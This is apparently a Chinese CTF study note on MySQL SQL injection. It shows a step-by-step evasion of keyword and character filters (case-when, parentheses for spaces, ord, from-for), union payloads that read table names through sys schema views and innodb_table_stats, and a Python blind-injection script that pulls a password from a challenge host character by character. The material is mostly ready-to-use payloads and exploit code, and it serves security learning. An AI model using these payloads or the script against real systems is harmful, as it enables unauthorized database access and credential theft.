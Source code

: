 id=1^if(ascii(substr(database(),1,1))=102,2,3)

在改例中 ' , 空格 等号 like ascii被过滤,

第一步：用case when 替代 if

> id=1^case ascii(substr(database(),1,1)) when 102 then 2 else 3 end

第二步：用（）替换空格

> id=1^case(ascii(substr(database(),1,1)))when(102)then(2)else(3)end

第三步：用ord替换ascii

> id=1^case(ord(substr(database(),1,1)))when(102)then(2)else(3)end

第四步：用substr(database() from 1 for 1 )替换逗号

> id=1^case(ord(substr(database()from(1)for(1))))when(102)then(2)else(3)end



# bypass infromation_schema

**由于performance_schema过于复杂，所以mysql在5.7版本中新增了sys schemma，基础数据来自于performance_chema和information_schema两个库，本身数据库不存储数据。**

**schema_auto_increment_columns**，该视图的作用简单来说就是用来对表自增ID的监控,也可以发现我们可以通过该视图获取数据库的表名信息

```
?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+

```

**sys.schema_table_statistics_with_buffer**
   可以看到，在上一个视图中并没有出现的表名在这里出现。

```
?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```
```
select /**/ group_concat(table_name) /**/ from /**/ mysql.innodb_table_stats
```



**利用`processlist`表读取正在执行的sql语句，从而得到表名与列名**

<img src="http://img.npfs06.top/20210723105353.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10" style="zoom:70%;" />

例子：

```python
import requests
url = "http://9ea19d02-b943-4a06-9d06-ee9e316803a0.node4.buuoj.cn/"
for n in range(0,150):
    for i in range(31,300):
        # payload = "if((ascii(substr((select (info)  FROM information_schema.processlist limit 0,1)," + str( n + 1) + ",1)) in (" + str(i) + ")),1,0)"
        #SELECT qwbqwbqwbuser,qwbqwbqwbpass from qwbtttaaab111e where qwbqwbqwbuser='andmin'
        payload = "if((ascii(substr((select qwbqwbqwbpass FROM qwbtttaaab111e limit 0,1)," + str(n + 1) + ",1)) in (" + str(i) + ")),1,0)"
        #glzjin666888
        r = requests.get(url + "register.php?username=admin' and " + payload + " and '1&password=1")
        if ("username" in r.text):
            print(chr(i), end="")
            break
        elif("success" not in r.text):
            print("n= "+str(n)+" i= "+str(i)+"|"+r.text)
```
